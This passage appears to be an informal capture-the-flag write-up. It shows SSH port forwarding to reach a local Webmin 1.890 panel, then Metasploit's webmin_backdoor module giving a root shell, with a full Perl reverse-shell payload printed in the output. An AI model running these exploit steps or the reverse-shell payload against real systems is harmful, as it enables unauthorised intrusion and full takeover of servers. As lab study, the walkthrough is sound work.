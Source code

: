 Google (wikipedia) say its a web server interface for administration...blablah..that runs by default on `port 10000`

you can confirm that with `netstat -tunlp`

as it seems it runs locally (nmap didnt get that) we need to `port-forward` it to us

for that tunneling we can use `chisel` wich require uploading the server  or use `ssh`

I go for ssh...choose any way you know...or not (XD I am personally learning it now..as I already konw chisel and sshutle...)

SSH local Port Forwarding syntax :

ssh -L [LOCAL_IP:]LOCAL_PORT:DESTINATION:DESTINATION_PORT [USER@]SSH_SERVER

Visit `127.0.0.1:port` for access 

Aaaand it was hard to make it work...(timeout errors)

```
└──╼ $ssh -L 10000:127.0.0.1:10000 dwight@office.csl -i id_rsa -v


dwight@office:~$ debug1: Connection to port 10000 forwarding to 127.0.0.1 port 10000 requested.
debug1: channel 3: new [direct-tcpip]

...
```

we see the login portal but that's all, we have no valid creds

we fire metasploit and search for exploits

one is particulary interresting...

```
msf6 exploit(linux/http/webmin_backdoor) > options

msf6 exploit(linux/http/webmin_backdoor) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(linux/http/webmin_backdoor) > set RPORT 10000
RPORT => 10000
msf6 exploit(linux/http/webmin_backdoor) > set LHOST 10.10.0.223
LHOST => 10.10.0.223

msf6 exploit(linux/http/webmin_backdoor) > run

[+] perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"10.10.0.223:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};'
[-] Handler failed to bind to 10.10.0.223:4444:-  -
[*] Started reverse TCP handler on 0.0.0.0:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Webmin 1.890 detected
[+] Webmin 1.890 is a supported target
[+] Webmin executed a benign check command
[+] The target is vulnerable.
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
[*] Generated command payload: perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"10.10.0.223:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};'
[*] Command shell session 1 opened (10.0.2.15:4444 -> 10.0.2.2:48714) at 2021-12-01 01:37:47 +0100

id
uid=0(root) gid=0(root) groups=0(root)

shell
[*] Trying to find binary 'python' on the target machine
```